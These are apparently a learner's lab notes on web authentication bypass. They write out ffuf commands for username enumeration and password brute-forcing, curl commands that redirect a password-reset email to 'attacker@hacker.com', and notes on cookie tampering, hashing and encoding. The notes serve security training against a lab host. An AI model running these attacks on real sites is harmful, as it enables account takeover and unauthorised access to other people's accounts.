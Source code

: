 Username enumeration 

here we will refer to two methods of succesfull user enumeration i.e 

1. error messages like - incorrect password , incase if a username is correct

or 

2. create a new user with fake data to see if "username already exist"

here we will use ffuf tool to automate this process i.e method 2 to see if username already exist condition is met 

Command will look like 

"ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.72.168/customers/signup -mr "username already exists""

where 

-w for wordlist 

-X for method used i.e GET , POST etc.

-d to add data to be sent i.e username , password and confirm password 

-H for adding aditional headers to our request 

-u for specifying url 

-mr to specify the text we are looking for 


---------------------------------------------------

Bruteforcing usernames with passwords to find a valid password 

here we will use ffuf and use 2 wordlist together 

command will be like 


"ffuf -w usernames.txt:W1,/home/kali/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.72.168/customers/login -fc 200"

  ->  :W1 to specify wordlist as "W1"
  ->  :W2 to specify wordlist as "W2" 

  most of the other arguments are same as above , here rather then "FUZZ" keyword we got W1 and W2 with username=W1&password=W2 .

  we used -fc to find status code other than "200" i.e 
  "302" for a sucessful login , 302 is for redirect 


  -------------------------------------------------------

  Logic Flaw 

  Sometimes authentication processes contain logic flaws. A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker. Logic flaws can exist in any area of a website. 


  we can manipulate logic flaws by using burpsuite or curl

  here we learned how to use curl to change post parameter in our request to send email to us 


  commands used are :- 

first command

  " curl 'http://10.10.72.168/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert' "

Second Command

  "curl 'http://10.10.72.168/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com' "

here we manipulated post data in 2nd command to completely change the email being send to genuiene user to malicious user.


-----------------------

Cookies Manipulation

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.


The contents of some cookies can be in plain text, and it is obvious what they do. Take, for example, if these were the cookie set after a successful login:

Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/

--------
Hashing

Sometimes cookie values can look like a long string of random characters; these are called hashes which are an irreversible representation of the original text.  

hashing algorithm examples are md5 , sha-256 , sha512 , sha1

 https://crackstation.net/ keep databases of billions of hashes and their original strings.

-------------------------

Encoding

Encoding is similar to hashing in that it creates what would seem to be a random string of text, but in fact, the encoding is reversible.

encoding converts binary to human readable text so that ascii or text only supported platforms can use our cookies 

examples base64 and base 32

---------------------------------

